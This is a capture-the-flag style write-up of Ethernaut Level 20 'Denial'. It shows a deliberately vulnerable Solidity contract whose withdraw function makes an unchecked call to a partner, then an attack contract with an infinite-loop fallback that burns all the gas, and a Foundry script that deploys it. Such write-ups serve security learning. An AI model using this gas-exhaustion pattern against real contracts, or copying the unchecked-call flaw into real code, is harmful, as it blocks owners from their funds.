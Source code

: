 # Ethernaut Level 20 Denial

---

Contract:

```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;

contract Denial {
    address public partner; // withdrawal partner - pay the gas, split the withdraw
    address public constant owner = address(0xA9E);
    uint256 timeLastWithdrawn;
    mapping(address => uint256) withdrawPartnerBalances; // keep track of partners balances

    function setWithdrawPartner(address _partner) public {
        partner = _partner;
    }

    // withdraw 1% to recipient and 1% to owner
    function withdraw() public {
        uint256 amountToSend = address(this).balance / 100;
        // perform a call without checking return
        // The recipient can revert, the owner will still get their share
        partner.call{value: amountToSend}("");
        payable(owner).transfer(amountToSend);
        // keep track of last withdrawal time
        timeLastWithdrawn = block.timestamp;
        withdrawPartnerBalances[partner] += amountToSend;
    }

    // allow deposit of funds
    receive() external payable {}

    // convenience function
    function contractBalance() public view returns (uint256) {
        return address(this).balance;
    }
}
```

We have to find out a way to block the owner from withdrawing money. It's natural to think that when someone calls `withdraw()` function, we want the logic to be stuck at `partner.call{value: amountToSend}("");` so that the owner would never withdraw any money. Maybe you have thought of *Reentrancy*. However, we cannot drain the balance of the contract, so calling back `withdraw()` in an attack contract's `receive()` function is not a good idea. 

We can exhaust the gas limit by implementing an infinite loop inside the attack contract's `fallback` function, so that before entering next code line, we have used up all the available gas, so the `transfer()` will not successfully happen.

In a transaction, gas is usually paid by the `tx.origin`, i.e. the initiator of a transaction.

`DeniaAttack.sol`:

```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;

interface IDenial {
    function setWithdrawPartner(address _partner) external;
}

contract DenialAttack {
    IDenial denial;

    constructor(address _denialAddress) {
        denial = IDenial(_denialAddress);
    }

    function attack() public {
        denial.setWithdrawPartner(address(this));
    }

    fallback() external payable {
        while(true) {}
    }
}   
```

`Denial.s.sol`:

```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;

import {Script, console} from "forge-std/Script.sol";
import {Denial} from "../src/Denial.sol";
import {DenialAttack} from "../src/DenialAttack.sol";

contract DenialScript is Script {
    Denial denial = Denial(payable(0xXXXXXXXX));
    DenialAttack denialAttack;

    function run() external {
        vm.startBroadcast();
        console.log("deployer:", msg.sender);
        denialAttack = new DenialAttack(address(denial));
        denialAttack.attack();
        vm.stopBroadcast();
    }
}
```

